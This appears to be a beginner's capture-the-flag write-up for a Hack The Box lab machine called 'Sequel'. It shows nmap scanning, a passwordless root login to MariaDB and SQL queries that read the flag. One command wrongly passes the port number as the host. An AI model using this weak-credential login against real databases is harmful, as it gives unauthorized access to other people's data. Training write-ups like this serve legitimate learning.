 # Sequel

![](Misc/sequel_pwnd.PNG)

This is my sixth machine when learning the basics of penetration testing. Tags included in this machine are:

- SQL
- MariaDB
- Weak Password

## <ins>**Questions**

* [Questions 1-4](Misc/questions_1.PNG)
* [Questions 5-7](Misc/questions_2.PNG)

## <ins>**Tasks**

For this machine you have to use <ins>nmap</ins> command with different switches and also <ins>mysql</ins> as a new command to get the answers for the tasks.

#### **Nmap**

![](Misc/nmap.PNG)

#### **mysql --help**
![](Misc/mysql_help.PNG)

## <ins>**Flag**

To connect the target machine you have to use command <ins>mysql</ins>. Nmap showed us the port number which is open and one of the tasks hinted the username **root** so let us try to connect to the machine with the following command:

~~~
mysql -h 3306 -u root
~~~

We got lucky because we are in. Let us read some manuals with **help** command.

![](Misc/mysql_help.PNG)

Now you have to use mariadb syntax. With the following command we can get a list of all databases.

~~~
show databases;
~~~

Then we have to choose a database. Htb might be the right one so let us choose that one with the following command:

~~~
use htb;
~~~

After that we can see the tables with command:

~~~
show tables;
~~~

![](Misc/databases.PNG)

Finally let us select everything from config table with the following command:

~~~
select * from config;
~~~

![](Misc/flag.PNG)

And there we have the flag. Now can submit it and move on to the next machine. Hurray!